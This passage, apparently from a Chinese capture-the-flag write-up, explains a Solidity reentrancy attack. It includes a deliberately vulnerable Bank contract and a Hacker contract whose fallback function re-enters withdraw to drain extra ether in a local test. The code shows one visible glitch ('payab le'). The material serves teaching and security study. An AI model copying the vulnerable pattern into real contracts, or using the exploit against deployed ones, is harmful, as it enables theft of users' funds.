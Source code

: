 如果 `msg.sender` 是一个合约地址，那么就会发生调用，而：
> 如果在一个对合约调用中，没有其他函数与给定的函数标识符匹配fallback会被调用。或者在没有 [receive 函数](https://learnblockchain.cn/docs/solidity/contracts.html?highlight=fallback#receive-ether-function)时，而没有提供附加数据对合约调用，那么fallback 函数会被执行。

于是就可以写一个 fallback 函数来控制流程，在这里因为是先转账，所以就直接再次调用 `Bank.withdraw` 导致再次取款。但为了防止无限次调用导致 gas 猛涨，所以可以加个状态量限制次数。

值得注意的是低版本 fallback 函数的声明是：`function() public payable`，而高版本需要换成：`fallback () external [payable]`；并且低于 `0.5.0` 的版本中并没有 `address payable` 的出现，之后才有细分还不能隐式从 `address` 到 `address payable`。

由于题目环境在 Ropsten testnet 上，这个测试网已经于 10.5 设置为 `read-only` 了，所以就本地 remix 简单调调，用低版本写一个 example :
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.4.23;
contract Bank {
    mapping(address => uint256) public balanceOf;

    function doit() public {
        balanceOf[msg.sender] = 1 ether;
    }

    function withdraw(uint256 amount) public payab le {
        require(balanceOf[msg.sender] >= amount, "NO!");
        msg.sender.call.value(amount)();
        balanceOf[msg.sender] -= amount;
    }

    function() payable {
    }
}

contract Hacker {
    bool status = false;
    Bank b;

    constructor(address addr) public {
        b = Bank(addr);
    }

    function doit() public {
        b.doit();
    }

    function hack() public payable {
        b.withdraw(1 ether);
    }

    function() public payable {
        if (!status) {
            status = true;
            b.withdraw(1 ether);
        }
    }
}
```
![](https://cdn.silente.top/img/s240.png)
